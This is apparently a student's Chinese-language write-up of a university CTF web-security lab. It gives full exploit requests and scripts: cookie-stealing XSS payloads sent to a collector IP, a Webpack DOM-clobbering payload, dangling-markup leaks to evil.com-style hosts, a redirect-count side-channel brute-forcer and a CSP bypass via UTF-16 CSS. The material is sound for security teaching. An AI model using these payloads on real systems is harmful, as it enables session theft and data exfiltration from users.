






# Task 1: XSS labs(15pt)
我们打开相应的网址，发现这是由5个关卡组成的一个题目，接下来我们对五个挑战进行攻击。
## 1.level 1
### 1.1 题目分析
level 1还是很简单的，我们发现它只需要向服务器发送请求，它就会自己返回document.cookie，所以我们设置好接收端，然后发送请求就好。

### 1.2 payload的构造
>注意：这里的payload不是单纯的payload，而是burpsuite中repeater的输入。

```bash
POST /bot HTTP/1.1
Host: 127.0.0.1:44522
Content-Type: application/x-www-form-urlencoded
Content-Length: 100

level=level1&q=<script>new Image().src='http://10.195.184.237:9999/l1?c='+document.cookie</script>
```

这里的`10.195.184.237:9999`是本地服务器，然后我们只需要运行sever.py它就会自动将接受端得到的，存到我们指定的内存上

### 1.3 level 1获得的token
```bash
{
  "l1": "token=ced53e0f436d1a58a84fbf15072d2e3e3c3851fb04e534e3"
}
```

## 2.level 2
### 2.1 题目分析
这是一个搜索界面，我们的目的依然是让它把token发到collector。
keyword 参数出现在两个地方：
```js
<strong> 标签里 — 被 HTML 转义了（安全）
<input value="..."> 属性里 — 没转义！
```
### 2.2 构造payload
```bash
POST /bot HTTP/1.1
Host: 127.0.0.1:44522
Content-Type: application/x-www-form-urlencoded

level=level2&q="><script>new Image().src='http://10.195.184.237:9999/l2?c='+document.cookie</script>
```

### 2.3 level 2获得的token
```bash
{
  "verify": "online",
  "l2": "token=da8a0974cb6a885c560b571ab8578b9ca08d0957de4043a7"
}

```

## 3.level 3
### 3.1 问题分析
这是一个类似修改个人信息的页面，通过对源代码的分析我们发现：" 没被过滤，我们可以通过这一点完成xss。

### 3.2 构造的payload
```bash
POST /bot HTTP/1.1
Host: 127.0.0.1:44522
Content-Type: application/x-www-form-urlencoded

level=level3&q=%22%20onfocus%3D%22new%20Image().src%3D%27http%3A%2F%2F10.195.184.237%3A9999%2Fl3%3Fc%3D%27%2Bdocument.cookie%22%20autofocus%20%22
```

### 3.3 获取token
```bash
{
  "verify": "online",
  "l2": "token=da8a0974cb6a885c560b571ab8578b9ca08d0957de4043a7",
  "l3": "token=43153497c932a3d0f63dc3ade48982b06756274a75846ce6"
}
```

## 4. level 4
### 4.1 问题分析
这是一个服务状态查询页面，我们根据课上所讲的iframe来实现绕过。

### 4.2 构造payload
```bash
POST /bot HTTP/1.1
Host: 127.0.0.1:44522
Content-Type: application/x-www-form-urlencoded
Content-Length: <自动计算>

level=level4&q=%3Ciframe+srcdoc%3D%22%3C%26%23115%3Bcript%3Efetch(%27http%3A%2F%2F10.195.184.237%3A9999%2Fl4%3Fc%3D%27%2Bdocument.cookie)%3C%2F%26%23115%3Bcript%3E%22%3E
```
### 4.3 获取token
```bash
{
  "status": "ok",
  "c": "token=1f43d71d7f8bba724c06f79c98b4614db00cea4b9d6c6830"
}
```
## 5. level 5
### 5.1题目分析
正如课上所讲，因为l5严格限制了输入，诸如`<>`等均不合法，所以我们选择 `AngularJS`作为突破口 
### 5.2 payload的构造
```bash
POST /bot HTTP/1.1
Host: 127.0.0.1:44522
Content-Type: application/x-www-form-urlencoded
Content-Length: <自动计算>

level=level5&q=%7B%7Bconstructor.constructor(%27fetch(String.fromCharCode(104%2C116%2C116%2C112%2C58%2C47%2C47%2C49%2C48%2C46%2C49%2C57%2C53%2C46%2C49%2C56%2C52%2C46%2C50%2C51%2C55%2C58%2C57%2C57%2C57%2C57%2C47%2C108%2C53%2C63%2C99%2C61)%2Bdocument.cookie)%27)()%7D%7D
```
### 5.3 获取的token
```bash
{
  "status": "ok",
  "c": "token=693605adb775d389a42ddcac4467802a65380845d1f34ae3"
}

```

## 6.最终的flag
flag{NoW_YOU_Have_undeRsTAnD_6A5lCS_0F_x5S}


---
# Task 2: Webpack DOMClobber (15pt)
## 1.题目分析
根据课上所讲，和我们对附件的分析，确认这是 `CVE-2024-43788 — Webpack` 的 `DOM Clobbering `漏洞。

## 2.过程（本文的过程均是指最后的完整过程，之前的试错不包含在内）
### 2.1 注册dumper账户
```bash
POST /register HTTP/1.1
Host: 127.0.0.1:43632
Content-Type: application/x-www-form-urlencoded

username=dmp123&password=dump1234&password2=dump1234
```
这里我们可以得到一个set-cookie，我们是用这个账户来接收flag。


### 2.2 注册attacker账户
```bash
POST /register HTTP/1.1
Host: 127.0.0.1:43632
Content-Type: application/x-www-form-urlencoded

username=atk123&password=atk123&password2=atk123

```
我们得到第二个set-cookie：`s%3AH575oIbRptEnhQxJbkklR7iuPSdCv-tq.vAZwtxLHiBoH7wHHcmA4SBkmOiG6YnFVbdCL7y6pSOU`
这个账户用来攻击，所以接下来的cookie均使用这个的。


### 2.3 设置 DOM Clobbering payload（必须用 attacker 的 Cookie）
```bash
POST /profile/update HTTP/1.1
Host: 127.0.0.1:43632
Cookie: connect.sid=s%3AH575oIbRptEnhQxJbkklR7iuPSdCv-tq.vAZwtxLHiBoH7wHHcmA4SBkmOiG6YnFVbdCL7y6pSOU
Content-Type: application/x-www-form-urlencoded

markdown=%3Cimg+name%3D%22currentScript%22+src%3D%22data%3Atext%2Fjavascript%2Cfetch%28%27%2Flogin%27%2C%7Bmethod%3A%27POST%27%2Cheaders%3A%7B%27Content-Type%27%3A%27application%2Fx-www-form-urlencoded%27%7D%2Cbody%3A%27username%3Ddmp123%26password%3Ddump1234%27%2Ccredentials%3A%27include%27%7D%29.then%28%28%29%3D%3Efetch%28%27%2Fprofile%2Fupdate%27%2C%7Bmethod%3A%27POST%27%2Cheaders%3A%7B%27Content-Type%27%3A%27application%2Fx-www-form-urlencoded%27%7D%2Cbody%3A%27markdown%3D%27%2BencodeURIComponent%28document.cookie%29%2Ccredentials%3A%27include%27%7D%29%29%2F%2F%22%3E
```
### 2.4 提交给bot
```bash
POST /bot HTTP/1.1
Host: 127.0.0.1:43632
Cookie: connect.sid=s%3AH575oIbRptEnhQxJbkklR7iuPSdCv-tq.vAZwtxLHiBoH7wHHcmA4SBkmOiG6YnFVbdCL7y6pSOU
Content-Type: application/x-www-form-urlencoded

url=http%3A%2F%2Flocalhost%3A3000%2Fprofile%2Fatk123
```
### 2.5 读取 flag
此时flag已经在`http://127.0.0.1:43632/profile/dmprjjb `中了。

## 3.flag
ZJUCTF{IND3eD_W3bpaCK_1S_n0t_MY_14voUR17e?!6Ut_v1Te_is,_lt_15_fasT#4Nd_s0m3onE_1S_7ry1Ng_T0_REwRlt7en_IT_in_RU5t}

---
# Task 3: Gradient(20pt)
## 1.题目分析
我们打开这个网页`127.0.0.1:43350`，发现这是一个渐变色编辑器。然后我们对附件进行分析。
### 1.1整体架构

```
用户 → Nginx(:80) → Apache(:8080) → PHP 应用
                 → Bot 服务(:3000)  → Puppeteer(Chrome)
```

| 组件 | 技术栈 | 端口 | 说明 |
|------|--------|------|------|
| **Nginx 反向代理** | nginx | `:80` | 对外暴露，路由分发 |
| **Web 应用** | PHP 7.3 + Apache | `127.0.0.1:8080` | 渐变色编辑器 |
| **Bot 服务** | Node.js + Express | `127.0.0.1:3000` | 接收 URL 并让 Chrome 访问 |
| **Bot 浏览器** | Puppeteer + Google Chrome | — | `--disable-javascript` |
| **Flag** | PHP 环境变量 `FLAG` | — | 仅在 Apache 进程中存在 |

### 1.2源码分析
#### 1.CSS 注入漏洞 — `app/src/index.php`（第 24-27 行）

```php
$gradient = $_POST['gradient'] ?? '';
// **直接拼接，无任何过滤！**
background: linear-gradient(90deg, $gradient);
```

**攻击向量**：`gradient` 参数未做任何过滤/转义，直接写入 CSS 文件 `/var/www/html/index.css`。可以构造 payload 闭合 CSS 规则，注入任意 CSS。

>我们结合课上讲的，可以确定这就是一个css问题。

### 1.3  task2和task3共有的一点小trick
我们发现这两个问题，均不能接入外网，即像task1那样在本地ip接收flag是不现实的。task 2我们使用了dumper接收，即我们需要同源接收。
同时在task3过程中，我们发现它比task2严格多了——**nginx 严格路由导致从外部无法直接读 flag.php**，并且**无法在容器内部署接收端（只能写 index.css）**。
所以，最终我们尝试使用Apache日志来获取flag。我们在webhook.site上申请了一个网址，作为接收端。

## 2.过程

这是我们运行py脚本，webhook.site抓取到的日志。接下来我们只需要将flag拼好就好。
因为这个flag比较长，webhook.site的免费额度不够用。所以我们使用了多个无痕的webhook.site,这里就不一一展示了。

>因为这个原因，上传的py脚本也不是完全的而是抓取一部分的。
## 3.flag
flag{do_y0u_kN0W_ThlS_i5_tHe_FiRST_C1lEnt-S1D3_477acK_chalL_complET3D_8Y_5d6WATA_92baea090e68}

---
# Task 4: Dangling Markup Lab（15pt）
## 1.问题分析
### 1.1架构

| 组件 | 说明 |
|------|------|
| `/view/common` | 公共页面，用户输入的 `content` 通过 `<%- content %>` **未转义**渲染，flag 为 `flag{dummy}` |
| `/view/admin` | 管理员页面，**需要 `admin_token` cookie**，flag 为真实 flag |
| `/bot` | Puppeteer bot，访问用户提交的 URL，**自带 `admin_token` cookie（domain: localhost）** |

### 1.2攻击原理：Dangling Markup

由于 `content` 被未转义注入，且位于 flag **之前**，我们可以注入一个**不闭合的 `` 标签**：

```
注入内容: 
  
...
<p class="flag-text">FLAG: {真实FLAG}</p>
...
<div id='end'>How to steal a flag?</div>
```

HTML 解析器会从 `'` 开始寻找 `src` 属性的闭合引号，**一路吞噬中间所有内容**（包括 flag！），直到在 `id='end'` 处找到下一个 `'`。

最终 `src` 的值为：
```
https://evil.com/steal?data=...FLAG: {真实FLAG}...<div id=
```

浏览器尝试加载这张"图片"，就会向我们的服务器发起 HTTP 请求，**flag 被包含在 URL 中泄露出来**！

## 2.攻击过程
这一题我们依然需要使用webhook来申请一个端口作为接收端。
这是脚本运行后webhook的返回。


## 3.flag
ZJUCTF{HowEVER_dangIINg_mARKup_rEQUiR35_vEry_str1n9EN7_ConDlT1oN5_TO_ExP1OIt_582a3adc6c8e}

## 4.Chrome 的 Dangling Markup 防御机制
Chrome 从 **Chrome 57（2017年3月）** 开始引入了针对 dangling markup 的防御，由 Mike West 提交（[whatwg/fetch#519](https://gitmemories.com/whatwg/fetch/issues/519)）。核心逻辑在 Fetch 层拦截可疑请求。
### 4.1 各浏览器防御对比

| 浏览器 | 版本 | 防御策略 | 效果 |
|--------|------|----------|------|
| **Chrome/Chromium** | **Chrome 57+** (2017.3) | Fetch 层拦截含 raw `<` 或被移除换行符的 URL | 拦截大多数场景，但可被绕过 |
| **Edge (Chromium)** | 同 Chrome | 同上 | 同上 |
| **Safari** | 类似 Chrome | 类似限制 | 部分拦截 |
| **Firefox** | **至今无此防御** | 允许 URL 中含换行符和 `<` | dangling markup 完全可用 |

### 4.2 Chrome 的两个拦截条件

Chrome 在 **Fetch 层**（不是 HTML 解析层）检查请求 URL：

1. **URL 中含有 raw `<` 字符** → 拦截
   - 但 WHATWG URL 解析器对 http/https 的 **query string** 部分会自动将 `<` 编码为 `%3C`
   - 所以这个条件只对 path/scheme/host 中的 `<` 有效，**query 中的 `<` 不会被拦截**

2. **URL 解析时有换行符被移除** → 拦截
   - URL 解析器会删除 `\n` `\r` 字符，Fetch 检测到删除行为就拦截
   - **这是最主要的防御**

### 4.3 总结：什么情况下会被拦截 vs 能利用

| 场景 | Chrome 行为 | 原因 |
|------|------------|------|
| 模板有换行，吞入内容含 `\n` | **拦截** | 条件 2：换行符被移除 |
| `<` 出现在 URL path 部分 | **拦截** | 条件 1：raw `<` 未被编码 |
| 模板无换行（minified），`<` 仅在 query 中 | **放行** | 两个条件都不满足 |
| 用 Firefox 打开 | **放行** | Firefox 无此防御 |
| 用 `<textarea>` 吞入（隐式闭合） | **拦截** | Chrome 额外检测 `<textarea>` 的隐式闭合 |

---
# Task 5: also jquery(10pt)
## 1.问题分析
这是一个jQuery XSS挑战。
### 1.1难点
webhook.site的CSP极其严格：
```
script-src 'none'; frame-src 'none'; worker-src 'none'
```
JavaScript和iframe全部被阻止。


### 1.2 攻击方案总结

漏洞： jQuery 1.8.2 + jQuery Migrate 1.4.1 的 `$.fn.init` 修改版存在选择器 XSS——当 `$()` 接收的字符串中包含 HTML 标签时（通过正则 `w` 匹配），会调用 `$.parseHTML()` 创建 DOM 元素，导致事件处理器（如 `onerror`）被执行。

突破点： 跨域 iframe hash 触发
- 通过 `localhost.run` SSH 隧道创建了一个 HTTPS 攻击页面（无 CSP 限制）
- 页面嵌入 iframe 加载 `http://localhost:3300/posts/xxx`（Chrome 对 localhost 放宽混合内容限制）
- **跨域调用 `iframe.contentWindow.location.replace("绝对URL#payload")`** — 这是跨域允许的导航操作，且仅有 hash 变化时浏览器视为同文档导航
-  `hashchange` 事件成功触发


## 2.攻击过程
我们依旧使用webhook作为接收端。

### 2.1 建一个 webhook 接收端

### 2.2 启动本地 HTTP 服务器
```bash
cd "C:\Users\35418\Desktop\CTF\lab2\web"
python -m http.server 9999
```

### 2.3  建立 SSH 隧道暴露到公网
```bash
ssh -R 80:localhost:9999 nokey@localhost.run
# 输出：https://xxxx.lhr.life ← 这就是公网 URL
```

### 2.4  创建攻击页面** `attack.html`：
```html
<!DOCTYPE html>
<html><body>
<iframe id="f" src="http://localhost:3300/posts/latency-budgets-are-organizational-contracts"
  style="width:100vw;height:100vh;border:none"></iframe>
<script>
var f = document.getElementById("f");
f.onload = function() {
    setTimeout(function() {
        // 关键：绝对URL + hash → 跨域 location.replace 触发 hashchange
        f.contentWindow.location.replace(
            "http://localhost:3300/posts/latency-budgets-are-organizational-contracts"
            + "#)"
        );
    }, 3000);
};
</script>
</body></html>
```
注意替换 `UUID` 和 URL-encode hash 中的特殊字符。

### 2.5. 提交给 bot
```bash
curl -X POST "http://127.0.0.1:45134/bot" \
  --data-urlencode "url=https://xxxx.lhr.life/attack.html"
```

### 2.6 查看 flag
这是webhook的返回。



## 3.flag
flag{J9UErY_41So_dOe5_7hat_a5_4_Xs5_tRICk}


---
# Task 6: as I've written(15pt)
## 1.问题分析

### 1.1 整体架构

| 组件 | 技术栈 | 说明 |
|------|--------|------|
| **Web 应用** | Node.js + Express 5 + EJS 3.1.10 | 端口 `8080`，邮件系统 |
| **Bot** | Puppeteer + Google Chrome | 带 `adminKey` cookie 访问用户提交的 URL |
| **数据库** | SQLite (better-sqlite3) | 预置 9 封普通邮件 + 1 封管理员邮件（flag 在标题中） |
| **XSS 防御** | DOMPurify 3.3.0 | 对 `{NICKNAME}` 替换内容进行 sanitize |

### 1.2 漏洞定位：`/mail-search/:lang?q=` 的重定向差异

核心漏洞不在 XSS，而在 `/mail-search/:lang` 端点对不同搜索结果的**响应行为差异**：

```javascript
// server.js 中 mail-search 的处理逻辑
const mails = db.prepare(
    `SELECT * FROM emails WHERE user = ? AND (title_zh GLOB ?)`
).all(user, `*${query}*`)

if(mails.length === 0){
    // 渲染 200 页面（无重定向）
    return res.render('index', { ... })
}
if(mails.length === 1){
    return res.redirect(...)   // ← 302 重定向！
}
if(mails.length > 1) {
    // 渲染 200 页面（无重定向）
    return res.render('index', { ... })
}
```

- 搜索匹配到**恰好 1 封**邮件 → 返回 `302 重定向`
- 搜索匹配到 **0 封或 ≥2 封**邮件 → 返回 `200 页面`

### 1.3 侧信道原理：HTTP 重定向计数上限

Chromium 对 `page.goto()` 中的 HTTP 重定向有上限（标准为 20 次，参考 Fetch 规范 §4.5 HTTP-redirect fetch）：

> *If request's redirect count is 20, then return a network error.*

如果能在 bot 访问的 URL 中构造一条重定向链，使其总次数在**刚好达到 20** 时由目标 app 决定是否触发上限，即可作为一个**侧信道 oracle**。

### 1.4 Oracle 构造

我们搭建一个**本地重定向服务器**，提供 `/redirect/<N>?url=<TARGET>` 接口，返回 N 次 302 后最终跳转到目标 URL。

```
攻击者重定向服务器(10.195.184.237:3000)
         │
  N 次预重定向
         ↓
  http://localhost:8080/mail-search/zh?q=GUESS
         │
    ┌────┴────┐
    │ 匹配1封  │  不匹配(0封)
    │ (返回302)│  (返回200)
    │         │
  总N+2次   总N+1次
  (触顶报错) (正常成功)
```

其中 `localhost:8080/` 自身也会返回 302（跳登录页），所以实际计算公式为：
- **总重定向次数 = 设定的预重定向层数 + 1（到 app 的跳转）+ 1（app 自身跳转，对 '/' 而言）**

因此上限 20 对应的预重定向层数为 **18**：
- 匹配（app 额外返回 302）→ 18 + 1 + 1 = 20 → 报错 → `"Don't hack my puppeteer."`
- 不匹配（app 返回 200）→ 18 + 1 = 19 → 成功 → `"Admin visited your site."`

### 1.5 攻击流程

1. 搭建本地重定向服务器（Windows 端口 3000）
2. 用 wsrx 隧道连接容器实例
3. 确认 18 层预重定向可产生 oracle 差异
4. 逐字符爆破 flag：对每个前缀，遍历字符集，通过 oracle 响应判断正确字符
5. 字符集：`0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ_-{}`

## 2.攻击过程

### 2.1搭建重定向服务器

在 Windows 上运行轻量 Node.js 重定向服务器：

```javascript
const http = require('http'), url = require('url');
http.createServer((req, res) => {
    const p = url.parse(req.url, true), pn = p.pathname.replace(/\/+$/, '');
    const parts = pn.split('/');
    if (parts[1] === 'redirect' && parts.length >= 3) {
        const n = parseInt(parts[2]), target = p.query.url;
        if (n <= 0) {
            res.writeHead(302, {Location: target});
            return res.end();
        }
        res.writeHead(302, {
            Location: `/${parts[1]}/${n-1}?url=${encodeURIComponent(target)}`
        });
        return res.end();
    }
    res.writeHead(404); res.end();
}).listen(3000);
```

### 2.2 连接容器实例

```bash
wsrx connect wss://ctf.zjusec.net/api/proxy/<实例UUID> -p 18080
```

### 2.3 Oracle 验证

首先验证 18 层预重定向对 `localhost:8080/` 的效果：
```bash
# 17层 → 成功
curl.exe -s "http://localhost:18080/bot?url=http://10.195.184.237:3000/redirect/17/?url=http://localhost:8080/"
# 返回：Admin visited your site.

# 18层 → 报错
curl.exe -s "http://localhost:18080/bot?url=http://10.195.184.237:3000/redirect/18/?url=http://localhost:8080/"
# 返回：Don't hack my puppeteer.
```

验证 oracle 对 mail-search 的区分能力：
```bash
# 匹配的前缀 ZJUCTF{ → 报错
curl.exe -s "http://localhost:18080/bot?url=http://10.195.184.237:3000/redirect/18/?url=http://localhost:8080/mail-search/zh?q=ZJUCTF%7B"
# 返回：Don't hack my puppeteer.

# 不匹配的前缀 → 成功
curl.exe -s "http://localhost:18080/bot?url=http://10.195.184.237:3000/redirect/18/?url=http://localhost:8080/mail-search/zh?q=ZZZZZZZ"
# 返回：Admin visited your site.
```

### 2.4 逐位爆破

使用 PowerShell 脚本逐字符爆破 flag：
```powershell
$redirector = "http://10.195.184.237:3000"
$botApi = "http://localhost:18080"
$charset = [char[]]('0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ_-{}')
$prefix = "ZJUCTF{"

while ($prefix[-1] -ne '}') {
    $found = $false
    foreach ($c in $charset) {
        $attempt = $prefix + $c
        $target = "http://localhost:8080/mail-search/zh?q=" + [uri]::EscapeDataString($attempt)
        $redirectUrl = $redirector + "/redirect/18/?url=" + [uri]::EscapeDataString($target)
        $botUrl = $botApi + "/bot?url=" + [uri]::EscapeDataString($redirectUrl)
        
        $result = curl.exe -s --connect-timeout 30 $botUrl 2>$null
        if ($result -match "hack") {
            $prefix += $c
            Write-Host "✅ Found: $c  →  $prefix"
            $found = $true
            break
        }
    }
}
Write-Host "🎉 Flag: $prefix"
```

爆破过程中遇到实例超时，重新连接了新实例后继续爆破，最终完整获取 flag。


确认完整 flag 为 `ZJUCTF{7rY_cl34rIng_y0uR_cO0k1e5_oo_eec6886e5344}`。

## 3.flag

```
ZJUCTF{7rY_cl34rIng_y0uR_cO0k1e5_oo_eec6886e5344}

```

---
# Task 7: ColorNote（15pt）
> 本解使用了 **Dangling Markup** 解法。

## 1. 问题分析

### 1.1 整体架构

| 组件 | 技术栈 | 说明 |
|------|--------|------|
| **Web 应用** | Node.js + Express 5 + EJS 3.x | 端口 `:3000`，笔记应用 |
| **Bot** | Puppeteer + Chromium | `--no-sandbox`，创建临时 admin 账号 |
| **Flag** | 环境变量 `FLAG` | 通过 `/redeem?token=<token>` 获取 |

### 1.2 Token 机制

Bot 每次访问前会创建一个临时 admin 账号，并初始化两条 note：

```javascript
store.users.set(adminUsername, {
  password: token,       // 32位 hex，也是 redeem token
  themeId: theme.id,
  notes: [
    seedSecretNote(token),                     // notes[0]: 内容为 <!--{token}-->
    createNoteRecord("First Note", "Nothing Here"),  // notes[1]
  ],
});
```

目标就是拿到 `<!--{token}-->` 中的 token，然后访问 `/redeem?token=xxx` 兑换 flag。

### 1.3 CSP 策略

```
default-src 'none'; script-src 'none'; style-src 'self' data:;
img-src * data:; font-src 'none'; connect-src 'none';
frame-src 'none'; object-src 'none'; base-uri 'none'; form-action 'self'
```

**关键允许项**：
- `style-src 'self' data:` — 允许 data: URI CSS
- `img-src *` — 允许加载任意外部图片
- `form-action 'self'` — form 只能提交到同源

### 1.4 漏洞入口

note 的 `bodyHtml` 通过 `<%- %>` **不转义**输出：

```ejs
<div class="note-body"><%- note.bodyHtml || "" %></div>
```

虽然 `script-src 'none'` 阻止了 XSS，但我们可以注入 `<style>` 标签或 `data:` CSS。

### 1.5 攻击原理：Dangling Markup + UTF-16 CSS 绕过

**经典 Dangling Markup**：

```html
`，则 `src='` 的未闭合引号会吞噬 token，发送到攻击者服务器。

**Chrome 的防御**（Chrome 57+）：
1. URL 中包含 raw `<` → 拦截
2. URL 解析时有换行符被移除 → 拦截

**绕过方案**：

利用 `style-src 'self' data:` 注入 `<link rel=stylesheet href='data:text/css;charset=utf-16,...'>`，将后续 HTML 以 **UTF-16** 解析。UTF-16 编码下，`<`、`>`、换行符等字符都变成乱码，Chrome 的防御检测就无法识别出尖括号了。

然后在 UTF-16 CSS 中注入 `*{background-image:url(http://attacker/leak?d=`，用**双引号未闭合**的 `background-image` 吞噬后续内容，最后通过编辑 note/2 添加 `'` 来闭合前面的单引号，触发请求。

## 2. 攻击过程

### 2.1 搭建攻击服务器

在 WSL（`10.196.16.171`）上运行 Flask 服务器，提供两个端点：

- `/exploit` — 返回恶意 HTML 页面
- `/leak` — 接收 UTF-16 编码的泄露数据，解码并提取 token

### 2.2 Exploit 页面逻辑

```html
<!-- 两个隐藏 form，分别创建和编辑 note -->
<form id="create" action="http://localhost:3000/notes/create" method="POST" target="leakwin">
  <input name="title" value="Scratch">
  <input name="bodyHtml" value="\x7f<link rel=stylesheet href='data:text/css;charset=utf-16,...*{background-image:url(http://attacker/leak?d='">  <!-- 3. 第二次 edit 添加 ' 来闭合 -->
</form>

<form id="edit" action="http://localhost:3000/notes/2/edit" method="POST" target="leakwin">
  <input name="title" value="First Note">
  <input name="bodyHtml" value="Nothing Here'">  <!-- 添加单引号闭合 -->
</form>
```

### 2.3 攻击时序

| 时间 | 操作 | 说明 |
|------|------|------|
| T+0ms | `window.open("about:blank", "leakwin")` | 打开隐藏窗口 |
| T+100ms | `createForm.submit()` | POST 创建 note，bodyHtml 为 UTF-16 CSS + dangling markup |
| T+1500ms | `editForm.submit()` | POST 编辑 note/2，添加 `'` 闭合 |
| T+3500ms | `popup.location = chall + "/notes"` | 导航到 `/notes` 列表页触发 CSS 加载 |

### 2.4 数据泄露与解码

浏览器加载 `data:text/css;charset=utf-16,...` 时，后续所有 HTML 被 UTF-16 解析。`<` 变成乱码绕过 Chrome 防御，CSS 的 `background-image:url(http://attacker/leak?d=` 吞噬了包含 token 的注释内容。

当 `editFields` 中的 `Nothing Here'` 写入 note/2 后，页面中多了一个 `'`，闭合了前面的单引号，浏览器发出请求：

```
GET /leak?d=UTF16编码的HTML片段
```

服务器解码后提取 token。

### 2.5 获取 Token

```
[leak] ...<!--{token}-->...
[token] 138f8de5a57000b32c88312c04873102
```

### 2.6 兑换 Flag

```bash
curl -s "http://127.0.0.1:44980/redeem?token=138f8de5a57000b32c88312c04873102"
```

## 3. Flag

```
flag{0eea0261-7201-4d42-a855-5bca13a91274}
```

## 4. 扩展：关于CSS Leak的一些猜想 （10pt）
>css的方法我没有自己去完成，这里仅写出一点想法。

利用 `@font-face + unicode-range` 逐字符探测 token 中的字符（因为 token 是 32 位 hex，字符集仅 16 种）。但 CSS 无法选中 HTML 注释中的内容（`<!--{token}-->`），需要先通过 Dangling Markup 或 CSRF 修改 note 内容使 token 脱离注释，再配合多轮 CSS 探测才能完成。

---
# 反馈
## 1.关于lab中的一些问题
其实感觉上课可以讲一些接收的问题，完成lab的时候，这个接收端的布置很费时间啊。嗷，还有难度不要写easy啊，并不easy。
这个`as I've written` 的flag有些太长了吧，我逐位爆破了将近30分钟。
## 2.对课程的一些建议
可能讲的有点多，也有可能是因为我是大一的，而且水平一般，感觉更多的都只是了解了一个概念，然后具体的都是ai帮助完成的。过程比较痛苦，（因为我用的agent比较笨，还需要问我怎么做）。但是整体还是提升了个人素养吧。

# bonus  As I've written REVENGE（20pt）
## 1.问题分析


## 2.攻击过程


## 3.flag